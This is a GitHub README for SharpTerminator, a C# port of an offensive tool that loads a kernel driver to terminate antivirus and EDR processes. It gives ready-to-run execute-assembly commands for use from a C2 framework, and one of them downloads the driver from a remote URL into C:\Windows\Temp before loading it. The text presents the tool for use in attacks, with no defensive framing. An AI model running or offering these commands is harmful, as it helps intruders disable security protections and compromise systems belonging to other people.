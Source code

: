 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:
![image](https://github.com/mertdas/SharpTerminator/assets/48562581/8eb24a46-8c00-4cd3-8a73-42409b234114)

### Load driver from disk and terminate AV/EDR:

![image](https://github.com/mertdas/SharpTerminator/assets/48562581/232b67b0-f5c6-44cc-936d-d6acdb617a74)

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

